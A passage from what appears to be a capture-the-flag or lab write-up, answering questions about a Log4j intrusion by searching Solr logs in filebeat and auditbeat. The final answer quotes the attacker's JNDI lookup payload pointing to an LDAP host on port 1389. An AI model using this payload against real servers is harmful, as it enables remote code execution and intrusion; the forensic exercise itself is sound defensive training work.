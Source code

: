 **Question 21**
```
What is the entire log file path of the "solr" application?
```

After a quick google understood that Solr logs are stored in a file known as solr.log, after heading over to filebeat a search using a filter *solr.log* and we find the log file path

![](./Screenshots/Image29.png)

**Question 22**
```
What is the path that is vulnerable to log4j?
```

In order to find the path we need to find the actual GET request with the payload, we move over to auditbeat and search using the filter *jndi* and we obtain the path

![](./Screenshots/Image30.png)

**Question 23**
```
What is the GET request parameter used to deliver log4j payload?
```

From the previous question its evident parameter used is *foo*


**Question 24**
```
What is the JNDI payload that is connected to the LDAP port?
```

The JNDI payload that connected to the LDAP port is - *{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}*